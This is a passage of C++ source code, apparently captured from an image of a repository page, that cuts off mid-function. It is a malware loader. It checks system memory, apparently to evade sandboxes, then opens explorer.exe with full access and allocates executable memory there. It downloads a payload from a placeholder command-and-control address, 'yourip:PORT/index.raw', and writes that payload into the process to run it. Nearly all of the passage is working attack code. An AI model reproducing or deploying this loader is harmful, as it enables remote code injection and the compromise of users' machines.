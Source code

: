 ```cpp
    statex.dwLength = sizeof(statex);
    if (!GlobalMemoryStatusEx(&statex)) {
        return FALSE;
    }
    return (statex.ullTotalPhys >= (1ULL * 1024 * 1024 * 1024));
}

void sendHTTPRequest() {
    const char* url = "http://10.10.10.10";
    IStream* stream = NULL;
    if (SUCCEEDED(URLOpenBlockingStreamA(NULL, url, &stream, 0, NULL))) {
        stream->Release();
    }
}

int downloadAndExecute() {
    DWORD pid = GetExplorerPID();
    if (pid == 0) {
        return 0;
    }

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        return 0;
    }

    SIZE_T dwSize = 510;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);
    if (memAddr == NULL) {
        CloseHandle(hProcess);
        return 0;
    }

    const char* c2URL = "http://yourip:PORT/index.raw";
    IStream* stream;
    if (FAILED(URLOpenBlockingStreamA(NULL, c2URL, &stream, 0, NULL))) {
        CloseHandle(hProcess);
        return 0;
    }

    char buff[510];
    unsigned long bytesRead;
    SIZE_T bytesOut;
    string s;

    while (true) {
        if (FAILED(stream->Read(buff, sizeof(buff), &bytesRead))) {
            break;
        }
        if (bytesRead == 0) {
            break;
        }
        s.append(buff, bytesRead);
    }

    if (!WriteProcessMemory(hProcess, memAddr, s.c_str(), s.size(), &bytesOut)) {
        stream->Release();
        CloseHandle(hProcess);
        return 0;
    }

```
